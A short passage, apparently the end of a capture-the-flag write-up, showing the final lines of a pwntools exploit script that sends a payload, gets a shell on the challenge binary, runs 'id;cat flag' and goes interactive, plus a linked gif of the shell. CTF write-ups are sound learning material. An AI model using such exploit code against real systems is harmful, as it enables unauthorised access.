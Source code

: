 ```python
p.sendlineafter(b'?\n', b'1024')
p.sendafter(b":", name)
# enjoy shell
p.sendline(b'id;cat flag')
p.interactive()
```

or see it in action??

![gotshell](./pics/gotshell.gif)

*nobodyisnobody still pwning things...* (even in 2022)